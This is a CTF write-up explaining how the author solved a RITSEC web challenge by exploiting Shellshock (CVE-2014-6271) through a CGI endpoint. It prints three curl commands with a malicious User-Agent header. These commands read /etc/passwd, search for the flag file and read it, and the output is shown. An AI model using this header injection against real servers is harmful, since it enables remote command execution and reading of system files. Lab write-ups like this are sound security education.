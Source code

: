 # What a cute dog! 350

## Description
```
This dog is shockingly cute!
fun.ritsec.club:8008

Author: sandw1ch
```

## Solution

On acessing the page we notice that some load information are being shown on the site.
When inspecting it's being loaded from /cgi-bin/stats.
This is was a big hint that the site might be vulnerable to CVE 2014-6271 (better known as "Shellshock").
I tried a poc exploit: 

```bash
Kiwi@Doghouse:~$ curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd;'" http://fun.ritsec.
club:8008/cgi-bin/stats

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
```

Yaay it worked!  
Next I searched for the flag:


```bash
Kiwi@Doghouse:/home/hacker/Documents/ritsec# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'find / -name 'flag*';'" http://fun.ritsec.club:8008/cgi-bin/stats

/proc/sys/kernel/sched_domain/cpu0/domain0/flags
/proc/sys/kernel/sched_domain/cpu1/domain0/flags
/usr/lib/perl/5.14.2/auto/POSIX/SigAction/flags.al
/opt/flag.txt
/sys/devices/pnp0/00:04/tty/ttyS0/flags
/sys/devices/platform/serial8250/tty/ttyS2/flags
/sys/devices/platform/serial8250/tty/ttyS3/flags
/sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/virtual/net/eth0/flags
/sys/devices/virtual/net/lo/flags
```

/opt/flag.txt looks promising!

```bash
Kiwi@Doghouse:/home/hacker/Documents/ritsec# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /opt/flag.txt;'" http://fun.ritsec.club:8008/cgi-bin/stats

RITSEC{sh3ll_sh0cked_w0wz3rs} bananaphonne been here ^.^
admin pls dont let people write to this
tq2 wuz here
```


Flag: RITSEC{sh3ll_sh0cked_w0wz3rs}
